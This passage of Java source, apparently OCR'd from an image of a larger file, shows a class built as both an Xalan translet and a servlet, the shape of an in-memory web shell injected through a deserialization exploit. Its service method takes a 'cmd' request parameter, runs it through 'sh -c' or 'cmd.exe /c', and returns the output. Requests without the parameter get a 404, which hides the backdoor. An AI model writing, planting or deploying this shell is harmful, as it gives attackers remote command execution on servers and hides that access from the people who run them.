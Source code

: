 ```java
            //hi.printStackTrace();
        }
    }

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {

    }
    @Override
    public void init(ServletConfig config) throws ServletException {}

    @Override
    public String getServletInfo() {return null;}

    @Override
    public void destroy() {}    public ServletConfig getServletConfig() {return null;}

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        HttpServletResponse resp = (HttpServletResponse) servletResponse;
        if (req.getParameter("cmd") != null){
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
            Process process = Runtime.getRuntime().exec(cmds);
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        else{
            resp.sendError(HttpServletResponse.SC_NOT_FOUND);
        }
    }
}
```
